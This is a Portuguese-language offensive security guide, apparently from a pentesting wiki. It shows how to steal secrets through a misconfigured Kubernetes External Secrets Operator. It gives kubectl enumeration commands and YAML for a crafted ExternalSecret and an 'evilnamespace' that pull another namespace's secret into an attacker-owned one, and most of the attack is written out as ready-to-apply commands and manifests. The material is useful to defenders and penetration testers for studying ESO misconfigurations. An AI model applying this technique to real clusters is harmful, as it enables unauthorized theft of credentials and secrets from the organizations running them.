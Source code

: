 # External Secret Operator

**O autor original desta página é** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página fornece algumas dicas sobre como você pode conseguir roubar segredos de um ESO mal configurado ou de uma aplicação que usa ESO para sincronizar seus segredos.

## Isenção de responsabilidade

A técnica mostrada abaixo só pode funcionar quando certas circunstâncias são atendidas. Por exemplo, depende dos requisitos necessários para permitir que um segredo seja sincronizado em um namespace que você possui / comprometeu. Você precisa descobrir isso por conta própria.

## Pré-requisitos

1. Um ponto de apoio em um cluster kubernetes / openshift com privilégios de administrador em um namespace
2. Acesso de leitura em pelo menos ExternalSecret no nível do cluster
3. Descubra se há algum rótulo / anotação ou associação a grupo necessária que permita que o ESO sincronize seu segredo. Se você tiver sorte, poderá roubar livremente qualquer segredo definido.

### Coletando informações sobre o ClusterSecretStore existente

Assumindo que você tem um usuário que possui direitos suficientes para ler este recurso; comece listando os _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeração de ExternalSecret

Vamos supor que você encontrou um ClusterSecretStore chamado _**mystore**_. Continue enumerando seu externalsecret associado.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso é escopado por namespace, então, a menos que você já saiba qual namespace procurar, adicione a opção -A para procurar em todos os namespaces._

Você deve obter uma lista de externalsecret definidos. Vamos supor que você encontrou um objeto externalsecret chamado _**mysecret**_ definido e usado pelo namespace _**mynamespace**_. Reúna um pouco mais de informações sobre que tipo de segredo ele contém.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Montando as peças

A partir daqui, você pode obter o nome de um ou vários nomes de segredos (como definido no recurso Secret). Você terá uma saída semelhante a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Até agora, temos:

- Nome de um ClusterSecretStore
- Nome de um ExternalSecret
- Nome do segredo

Agora que temos tudo o que precisamos, você pode criar um ExternalSecret (e eventualmente corrigir/criar um novo Namespace para atender aos pré-requisitos necessários para sincronizar seu novo segredo):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Após alguns minutos, se as condições de sincronização forem atendidas, você deverá conseguir visualizar o segredo vazado dentro do seu namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referências

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}

